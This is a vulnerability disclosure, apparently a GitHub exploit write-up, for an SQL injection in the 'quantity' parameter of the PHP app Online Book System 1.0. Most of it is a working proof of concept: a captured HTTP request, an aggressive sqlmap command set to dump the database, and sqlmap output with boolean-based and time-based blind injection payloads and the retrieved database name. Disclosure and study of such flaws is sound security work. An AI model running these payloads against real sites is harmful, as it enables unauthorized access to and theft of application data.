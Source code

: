 # Online Book System- SQL Injection - 5
+ **Exploit Title:** Online Book System- SQL Injection
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/online-book-system-in-php-css-js-and-mysql-free-download/
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Book System 1.0 allows SQL Injection via the 'quantity' parameter at "/BookStore-master%201/cart.php?ID=ENT-1&quantity=1". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/BookStore-master 1/index.php"
+ Then select a book and press buy
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /BookStore-master%201/cart.php?ID=ENT-1&quantity=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'quantity' parameter to dump the database.
```
sqlmap -r r.txt -p quantity --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: quantity (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: ID=ENT-1&quantity=1 AND 4858=(SELECT (CASE WHEN (4858=4858) THEN 4858 ELSE (SELECT 6833 UNION SELECT 6685) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ID=ENT-1&quantity=1 AND (SELECT 7172 FROM (SELECT(SLEEP(5)))hoIs)
---
[11:33:46] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:33:46] [INFO] fetching current database
[11:33:46] [INFO] retrieving the length of query output
[11:33:46] [INFO] retrieved: 16
[11:33:48] [INFO] retrieved: u385439067_store             
current database: 'u385439067_store'

```
+ current database: `u385439067_store`

![Ekran görüntüsü 2024-03-26 183630](https://github.com/BurakSevben/CVEs/assets/117217689/3e6e3edd-ba5e-43db-8405-74e1539c63df)

